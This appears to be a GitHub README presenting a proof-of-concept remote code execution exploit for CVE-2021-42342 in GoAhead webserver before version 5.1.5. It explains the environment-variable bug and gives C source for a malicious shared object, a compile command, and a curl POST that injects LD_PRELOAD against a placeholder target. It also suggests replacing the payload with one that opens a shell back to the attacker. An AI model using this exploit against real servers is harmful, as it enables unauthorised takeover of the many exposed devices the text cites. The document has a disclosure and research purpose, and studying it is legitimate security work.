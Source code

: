 # Goahead webserver (pre v5.1.5) RCE PoC (CVE-2021-42342)

A recent bug in Goahead Webserver was discovered by [William Bowling](https://twitter.com/wcbowling) which leads to RCE on the exploited server.

The issue exists prior to version 5.1.5 which, according to [Shodan covers around 2.8mio servers on the internet](https://www.shodan.io/search?query=goahead).  
A CVS is available now [https://nvd.nist.gov/vuln/detail/CVE-2021-42342]

The RCE is caused by the the fact that if the file upload filter is enabled, then the user can upload files and at the same time set user form variabled. 

These variabled ends up as being OS environment variables. This is normally not a problem, as in normal form upload cases, the env variables will get prefixed with CGI_ (default). If, however the file upload filter is enabled, then an error in the code causes this prefix to be left out = instant RCE via env variables + file. 


## Creating simple shared object 
The following will just prints "Hellow World" on the remote server but could be anything really:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello World!\n", 14);
}
```
Compile with:
```Bash
gcc -fPIC -shared -o poc.so poc.c -nostartfiles
```
## Exploiting the server
now we are ready to send our file to the server. This can be done using curl:
```bash
curl -X POST  http://[TARGET]/cgi-bin/ -F "LD_PRELOAD=/proc/self/fd/0" -F file='@poc.so;encoder=base64'
```
change `[TARGET]` to the domain/ip of the target server. 

You will probably see an error from the server, but try with another shared object that e.g. calls back to you with a nice shell 👍

## Fix
A fix is out with goahead 5.1.5 here: [https://github.com/embedthis/goahead/issues/305]

## Credits 
The issue was initially found by Willian Bowling from Perfect Blue CTF team. 
During [pbCTF 2021](https://ctf.perfect.blue/), a challange was the, at that time, existing version (5.1.4) of goahead server, and togetther with [Kalmarunionen CTF Team](https://kalmarunionen.dk) we came across the same 0day issue in the code (yet to be disclosed to the authors). 
